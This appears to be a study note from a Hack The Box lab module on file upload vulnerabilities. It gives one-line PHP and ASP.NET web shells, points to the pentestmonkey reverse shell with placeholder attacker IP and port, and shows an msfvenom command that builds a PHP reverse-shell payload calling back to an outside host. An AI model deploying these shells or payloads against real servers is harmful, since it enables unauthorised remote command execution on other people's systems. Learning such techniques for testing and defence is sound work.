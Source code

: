 # 🐌 File Upload Attacks

The worst possible kind of file upload vulnerability is an `unauthenticated arbitrary file upload` vulnerability. With this type of vulnerability, a web application allows any unauthenticated user to upload any file type, making it one step away from allowing any user to execute code on the back-end server.

The most common and critical attack caused by arbitrary file uploads is `gaining remote command execution` over the back-end server by uploading a web shell or uploading a script that sends a reverse shell.

#### **Basic Exploitation**

The most basic type of file upload vulnerability occurs when the web application `does not have any form of validation filters` on the uploaded files, allowing the upload of any file type by default.

Let's imagine a upload form that does not specify what type of file we can upload:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

Many kinds of scripts can help us exploit web applications through arbitrary file upload, most commonly a `Web Shell` script and a `Reverse Shell` script.

A web shell prints it's output back to us within the web browser. It has to be written in the same programming language that runs the web server, as it runs platform-specific functions and commands to execute system commands on the back-end server, making web shells non-cross-platform scripts.

Let's say we have a website `http://SERVER_IP:PORT/`, as the `index` page is usually hidden by default. But, if we try visiting `http://SERVER_IP:PORT/index.php`, we would get the same page, which means that this is indeed a `PHP` web application.

but if not we can juste use [Wappalyzer](https://www.wappalyzer.com)

To start exploiting the vuln , let's start by writing `<?php echo "Hello HTB";?>` to `test.php`, and try uploading it to the web application

we get a message saying `File successfully uploaded` and if we go to `http://SERVER_IP:PORT/uploads/test.php`

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

_**Try to upload a PHP script that executes the (hostname) command on the back-end server, and submit the first word of it as the answer.**_

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Upload Exploitation

### Web Shell

Now we will try to be able to interact with it to take control over the back-end server.

A good webshell for `PHP` is [phpbash](https://github.com/Arrexel/phpbash) and good to know but [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) provides a plethora of web shells for different frameworks and languages, which can be found in the `/opt/useful/SecLists/Web-Shells` directory in `PwnBox`.

It's good practice to know how to write our own webshell:

```php
<?php system($_REQUEST['cmd']); ?>
```

add `?cmd=id` after the request to enter the command

For `.NET` web applications:

```aspnet
<% eval request('cmd') %>
```

### Reverse Shell

One reliable reverse shell for `PHP` is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell. Furthermore, the same [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) we mentioned earlier also contains reverse shell scripts for various languages and web frameworks, and we can utilize any of them to receive a reverse shell as well.

After changing the IP and port

```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

We launch our listener with netcat, upload our script to the web application, and then visit its link to execute the script and get a reverse shell connection

### Custom Reverse Shell

`msfvenom` can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place. We can do so as follows for `PHP`

```shell-session
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```
